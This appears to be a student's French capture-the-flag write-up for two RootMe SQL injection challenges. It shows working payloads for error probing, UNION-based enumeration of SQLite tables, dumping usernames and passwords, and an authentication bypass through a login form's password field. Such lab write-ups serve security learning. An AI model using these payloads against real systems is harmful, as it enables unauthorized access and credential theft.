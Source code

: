 **RootMe**
# SQL injection - String

URL : http://challenge01.root-me.org/web-serveur/ch19

Etudiant | Date | Sujet
:---|:---|:---
Hamza Terir | 23/11/2022 | SQLi


### Erreur SQL
```
admin'
```

![Pasted image 20221123135349](https://user-images.githubusercontent.com/122984033/213180205-c2af302a-74df-4617-a038-892e857cdc4a.png)

### Point d'injection

Le point d'injection est dans la barre de recherche qui est accessible à cette url :

http://challenge01.root-me.org/web-serveur/ch19/


![Pasted image 20230118141543](https://user-images.githubusercontent.com/122984033/213181856-63ba1da1-f3f7-4250-8f57-11e4e1fb3a1f.png)

## Exploitation

### Requête True
```sql
' OR 1=1
```

### Nombre de colonnes (2)
```sql
' UNION SELECT null,null -- 
```

#### Informations

### Version
```sql
' UNION SELECT null,sqlite_version() -- 
```

Database version : SQLite3 (3.31.)

![Pasted image 20221123142951](https://user-images.githubusercontent.com/122984033/213182251-f8688658-98f8-41ff-adef-d2c3e06f2f4e.png)

### Tables
```sql
' UNION SELECT null,name FROM sqlite_master WHERE type='table' -- 
```
![Pasted image 20221123142924](https://user-images.githubusercontent.com/122984033/213182410-affcd2ee-e013-4412-ae5f-8f2898b5c88e.png)

### Schema Tables
```sql
' UNION SELECT null,sql FROM sqlite_master WHERE type='table' -- 
```
![Pasted image 20221123143111](https://user-images.githubusercontent.com/122984033/213182667-6599c824-048b-408f-a0e1-fa306d465e06.png)

### Identifiants
```sql
' UNION SELECT null,null OR 1=1

' UNION SELECT username,password FROM users -- 
```

## Flag

![Pasted image 20221123145118](https://user-images.githubusercontent.com/122984033/213182786-d5d61278-33ad-4465-b3f2-1719f0c7c521.png)


# SQL injection - Authentication

URL : http://challenge01.root-me.org/web-serveur/ch19

## Reconnaissance
### Detection

```sql
admin
admin'
```

![Pasted image 20230118143012](https://user-images.githubusercontent.com/122984033/213186831-23504ec9-2705-4345-9044-0ae77b53aace.png)

Requête POST /web-serveur/ch9/
```javascript
login=admin&password=admin%27
```

![Pasted image 20230118143340](https://user-images.githubusercontent.com/122984033/213187295-70abea90-85fe-48b5-baa8-ef888b7085e2.png)

On obtient l'erreur SQL de lase base de données SQlite3 :

![Pasted image 20230118143526](https://user-images.githubusercontent.com/122984033/213187431-b7e42334-f087-405a-a1f4-d2f3df818305.png)

## Exploitation
### Requête true

Requête POST avec la charge utile dans le point d'injection qui correspond à la partie password dans le formulaire :
```sql
login=admin&password=admin' OR '1'='1
```

![Pasted image 20230118143728](https://user-images.githubusercontent.com/122984033/213187676-ad879ddd-e43f-44c8-90e8-9ea310198293.png)

On obtient un accès au compte user1 :

![Pasted image 20230118143835](https://user-images.githubusercontent.com/122984033/213187815-f1fdc674-08df-4376-a86e-a1cd3565457c.png)









